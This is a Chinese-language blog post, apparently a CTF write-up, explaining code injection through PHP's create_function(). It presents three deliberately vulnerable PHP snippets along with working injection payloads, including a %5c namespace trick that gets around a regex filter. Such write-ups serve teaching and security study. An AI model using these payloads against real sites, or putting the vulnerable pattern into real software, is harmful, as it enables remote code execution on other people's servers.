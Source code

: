 ```yaml
---

layout:     post                    # 使用的布局（不需要改）
title:      create_function()注入               # 标题 
subtitle:    #副标题
date:       2020-01-07              # 时间
author:     Von                      # 作者
header-img: img/post-bg-mma-0.png
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - CTF
    - PHP 

---
```


# create_function()介绍
php中使用create_function()来创建匿名函数。具体用法举例如下:
``` php
create_function('$fname','echo $fname."Zhang"')
```
其等价于
``` php
function fT($fname) {
  echo $fname."Zhang";
}
```

# create_function()的利用

## 1
先来看一段有问题的代码。
``` php
<?php
$id=$_GET['id'];
$str2='echo  '.$a.'test'.$id.";";
echo $str2;
echo "<br/>";
echo "==============================";
echo "<br/>";
$f1 = create_function('$a',$str2);
echo "<br/>";
echo "==============================";
?>
```
payload为:
``` php
?id=;}phpinfo();/*
```
当进行传参后,等价的函数为:
``` php
function f1($a)
{
    echo $a.'test';}
    phpinfo();/*
    ;
}
```
![](/blog_img/create-1.png)

## 2
``` php
<?php
//how to exp this code
$sort_by=$_GET['sort_by'];
$sorter='strnatcasecmp';
$databases=array('test','test');
$sort_function = '  return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
usort($databases, create_function('$a, $b', $sort_function));
?>
```

payload为:
``` php
?sort_by="]);}phpinfo();/*
```

## 3
``` php
<?php
$action = $_GET['action'] ?? '';
$arg = $_GET['arg'] ?? '';

if(preg_match('/^[a-z0-9_]*$/isD', $action)) {
    show_source(__FILE__);
} else {
    $action('', $arg);
}
```
这道题是p牛出的一道题。首先要求不能以字母,数字,下划线开头。思路是在函数的开头加入特定的字符，既能绕过正则又能让函数正常执行。  
经过fuzz,发现在函数前面加入%5c(\\),可以达到以上目的，至于为什么是%5c，p神给出了答案。  
>php里默认命名空间是\，所有原生函数和类都在这个命名空间中。普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径；而如果写\function_name() 这样调用函数，则其实是写了一个绝对路径。如果你在其他namespace里调用系统类，就必须写绝对路径这种写法。

接下来的部分，就是要我们可以利用一个函数，然后我们可控它的第二个参数。在这里我们就想到了create_function()函数，于是我们可以构造这样的payload.
``` php
?action=%5ccreate_function&arg=;}scandir("./");/*
```

# 参考文章
[kevens的文章](https://kevens10.github.io/articles/create_function()%E6%B3%A8%E5%85%A5%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.html);  
[f1sh的文章](http://f1sh.site/2018/11/25/code-breaking-puzzles%E5%81%9A%E9%A2%98%E8%AE%B0%E5%BD%95/)  





